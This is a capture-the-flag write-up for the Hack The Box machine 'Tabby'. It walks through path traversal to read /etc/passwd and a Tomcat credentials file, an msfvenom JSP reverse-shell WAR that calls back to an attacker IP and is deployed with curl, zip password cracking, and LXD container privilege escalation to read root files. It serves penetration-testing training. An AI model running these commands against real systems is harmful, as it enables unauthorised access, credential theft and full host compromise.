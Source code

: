 ```yaml
---
title: "[Writeup] Hack The Box: Tabby"
date: 2020-08-08T23:53:00+07:00
categories: [writeup]
tags: [writeup, walkthrough, htb, hackthebox]
---
```


Here's my writeup for **Tabby**, a Linux box on Hack The Box. This one is created by **egre55** and it is rated as *Easy*. The techniques required to clear **Tabby** are not complicated, but you need to connect the dots, using information/vulnerabilities from one component to gain access to other components.

{{< img src="/images/writeup/htb_tabby/info.png">}}

<!--more-->

**OS:** Linux  
**Difficulty:** Easy  
**Points:** 20  
**Release:** 20 Jun 2020  
**IP:** 10.10.10.194  
**Box Creator:** egre55  
**Date Cleared:** 5 Aug 2020

## TL;DR

- Use path traversal on the `file` variable of `http://10.10.10.194/news.php` to read a credential from `/usr/share/tomcat9/etc/tomcat-users.xml`
- Use the Tomcat credential found to deploy a war file through <http://10.10.10.194:8080/manager/text/deploy>
- Get a reverse shell through the uploaded war web app, and download an encrypted zip file inside `/var/www/html/files`
- Crack the zip password using `fcrackzip` and use that password to `su` to the user `ash`
- Use `lxc` to perform privilege escalation (<https://www.hackingarticles.in/lxd-privilege-escalation/>)

## Information Gathering

Starting with `nmap` scan, there are 3 ports available on the target: `ssh` on `22`, and two `http` servers on `80` and `8080`.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8080/tcp open  http    Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80 - HTTP

The web server on port `80` has a website for **MEGA HOSTING**, a dedicated servers hosting service.

{{< img src="/images/writeup/htb_tabby/80_home.png">}}

There is a message mentioning that the company is *recovering from the data breach*, with a link to the statement for that.

I followed the link and it directed me to <http://megahosting.htb/news.php?file=statement>.

{{< img src="/images/writeup/htb_tabby/host_1.png">}}

I added the domain name with the IP address of the machine to the `hosts` file at `/etc/hosts` in order to access the page with the domain name. (Or you can just access the page directly without the domain name: <http://10.10.10.194/news.php>)

{{< img src="/images/writeup/htb_tabby/host_2.png">}}

The statement is just a simple text saying about the breach. The interesting part is the `file` parameter in the URL.

{{< img src="/images/writeup/htb_tabby/80_breach.png">}}

From the look of it, I guessed that `news.php` would get the file name from the `file` parameter and show the content of a file with that same name in a specific directory. I tried to do **path traversal** with `../../../../../` to traverse back to the root directory (`/`) and append the name of the file I wanted to read, and voila! I was able to read `/etc/passwd`.

{{< img src="/images/writeup/htb_tabby/80_traverse.png">}}

With this, I could read any arbitrary file *(with sufficient permission)* on the machine given the path, which would surely be useful for the further steps.

### 8080 - HTTP

The port `8080` is hosting **Apache Tomcat**. The home page is a default page with the information on the paths where the components are located at. It also tells that there are the `manager` and `host-manager` web apps available.

{{< img src="/images/writeup/htb_tabby/8080_tomcat.png">}}

I tried to log in to both `manager` and `host-manager` using the default passwords, but failed.

{{< img src="/images/writeup/htb_tabby/8080_manager.png">}}

{{< img src="/images/writeup/htb_tabby/8080_hostmanager.png">}}

However, we do have the ability to read any file on the machine, so why don't we just go ahead and read the config file for Tomcat?

## Gaining Access

With the knowledge of the installation paths from the home page, I searched for the default location of the config file containing the credentials for Tomcat manager. I looked through many paths until I found the package structure of Tomcat 9 from <https://packages.debian.org/sid/all/tomcat9/filelist>.

With that, using the `news.php` from port `80`, I found the credential `tomcat:$3cureP4s5w0rd123!` by accessing <http://megahosting.htb/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml>

{{< img src="/images/writeup/htb_tabby/80_tomcatpass.png">}}

I was able to log in to the `host-manager` web app.

{{< img src="/images/writeup/htb_tabby/8080_hostmanager_success.png">}}

Unfortunately, I couldn't access the `manager` web app which I needed to deploy a **reverse shell** web app. The reason is that the `tomcat` user does not have the `manager-gui` which is required for accessing the page.

{{< img src="/images/writeup/htb_tabby/8080_manager_denied.png">}}

It does, however, have the `manager-script` role, which according to the Tomcat 9 Doc (<https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html>), can use the plaintext interface of the `manager` web app. Therefore, I could deploy a new web app through <http://10.10.10.194:8080/manager/text/deploy>.

{{< img src="/images/writeup/htb_tabby/tomcat9_doc.png">}}

I created a reverse shell web app `war` file using the command `msfvenom -p java/jsp_shell_reverse_tcp -f war LHOST=10.10.16.12 LPORT=443 -o rev.war`

{{< img src="/images/writeup/htb_tabby/reverse_war.png">}}

I then deployed it to the server with `curl --upload-file rev.war 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/rev'`

{{< img src="/images/writeup/htb_tabby/deploy.png">}}

With the web app deployed, I could get the reverse shell by opening a listener and access my reverse shell web app at <http://10.10.10.194:8080/rev/>

{{< img src="/images/writeup/htb_tabby/rev.png">}}

Spawned a pty with `python3`.

{{< img src="/images/writeup/htb_tabby/pty.png">}}

With the shell, I found an interesting zip file in `/var/www/html/files`, so I downloaded it to my machine.

{{< img src="/images/writeup/htb_tabby/backup.png">}}

I tried to unzip it and found that the zip is encrypted.

{{< img src="/images/writeup/htb_tabby/encrypted.png">}}

With `fcrackzip`, I went for a dictionary attack on the zip file with a common wordlist `rockyou.txt`, and found the password `admin@it`.

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip`

{{< img src="/images/writeup/htb_tabby/fcrackzip.png">}}

With the right password, I was able to unzip and view the files. However, nothing interesting was found in any of the files.

{{< img src="/images/writeup/htb_tabby/unzip.png">}}

From the `/home` directory of the target machine, we can see that there is a user named `ash`.

{{< img src="/images/writeup/htb_tabby/home.png">}}

I was able to log in successfully with the password of the zip file, and got the user flag.

{{< img src="/images/writeup/htb_tabby/user.png">}}

## Privilege Escalation

The user `ash` is in the `lxd` group, which could be used to deploy a new container.

> LXD is a next generation system container manager. It offers a user experience similar to virtual machines but using Linux containers instead.
> &mdash; <https://linuxcontainers.org/lxd/introduction/>

With that permission, I found a blog (<https://www.hackingarticles.in/lxd-privilege-escalation/>) describing a trick that can be used to escalate the privilege by mounting the **root directory** (`/`) to a container in order to access the files with higher privilege.

I built an image using a script from <https://github.com/saghul/lxd-alpine-builder> and uploaded it to the target machine.

{{< img src="/images/writeup/htb_tabby/lxc_1.png">}}

Following the instructions from the blog, I imported the uploaded image, created a container named escalate, mounted the root directory to the container, and started it.

```sh
lxc image import alpine-v3.12-x86_64-20200804_2346.tar.gz --alias alpine
lxc init alpine escalate -c security.privileged=true
lxc config device add escalate whatever disk source=/ path=/mnt/root recursive=true
lxc start escalate
```

{{< img src="/images/writeup/htb_tabby/lxc_2.png">}}

I then executed `sh` on the container and got access to all files on the machine, including the root flag.

```
lxc exec escalate sh
cat /mnt/root/root/root.txt
```